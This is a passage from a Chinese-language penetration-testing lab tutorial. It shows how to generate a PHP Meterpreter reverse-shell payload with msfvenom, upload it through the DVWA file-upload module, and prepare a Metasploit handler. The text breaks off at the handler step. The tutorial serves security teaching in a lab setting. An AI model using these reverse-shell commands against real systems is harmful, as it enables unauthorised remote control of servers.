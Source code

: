 该攻击的脚本原理很简单，就是通过让目标主机执行该脚本，通过该脚本向我们的主机发起连接请求，于此同时被我们监听该端口的程序捕捉到，然后便成功的建立连接，然后便远程登陆到 shell 中，就像 ssh 与 telnet 一般。

```
cd /var/www/html
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

生成该脚本需要一定的时间，大概在 3-5 分钟左右，请大家耐心等待，若是有这样的信息输出表示成功：

![generate_payload](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741081670.png/wm)

在当前的目录中我们可以看到这个文件的存在：

![show_generate_php](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741090178.png/wm)

生成的脚本我们可以通过 `vim reverse_shell.php` 来查看一下生成的脚本：

![show_generate_code.png](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741143459.png/wm)

我们看到生成的脚本源码格式非常的不混乱，一点都不友好，不方便查看。

与此同时我们还看到 `<?php` 的头标签被注释掉了，我们需要去掉该注释才能正常的运行，同时我们也看到了 `$ip` 与 `$port` 这样两个变量，这便是我们刚刚设置的本地 IP 地址与空闲的端口号，若是刚刚设置有误，同样可以在这里修改：

![modify-source-code](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741155220.png/wm)

使用 `:wq` 保存退出。

因为本环境只是使用了 kali 的终端，未有图形界面，所以无法在 Kali 的环境中上传该脚本，我们需要将该脚本传输至本地的实验楼环境中，然后使用 firefox 上传。

利用 shiyanlou 用户的终端，我们使用 scp 工具将该脚本传输至本地：

```
scp root@kali:/var/www/html/reverse_shell.php ./
```

其中 root 表示登陆的用户，kali 表示登陆到的主机，因为我们在 hosts 中添加了别名，kali 别名可以正确的解析出对应的 IP 地址 `192.168.122.101`，`:/var/www/html/reverse_shell` 是指定的我们将要传输的文本，刚刚在使用 msfvenom 时我在 `/var/www/html` 目录中，所以该文件在这个路径中，你的不一定在这个路径中，你可以在 kali 中通过 `pwd` 命令获取当前所在的位置，从而填写相应正确的路径。其中 `./` 表示将需要下载的文件存放至 shiyanlou 用户当前执行命令所在的目录中，通过 `ls -lah |grep reverse` 或者 `ll` 可以看到：

![download_script](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741166568.png/wm)

因为 msfconsole 的启动时间较长，所以我们此时在 kali 的终端中使用 `msfconsole` 命令打开。

接下来的步骤与本地文件包含的方式类似了，首先我们打开 firefox 到 dvwa 平台的上传模块将刚刚的脚本上传到目的主机（当然此处你可以使用远程文件包含的攻击方式，当时远程文件包含的方式非常受限，需要许多的特定条件，所以此处不在演示。）：

![upload_chose_file](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741174923.png/wm)

成功的上传脚本：

![get_upload_path](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741182073.png/wm)

此时我们的 msfconsole 也成功启动了，我们使用相应的模块：

```
use exploit/multi/handler
```
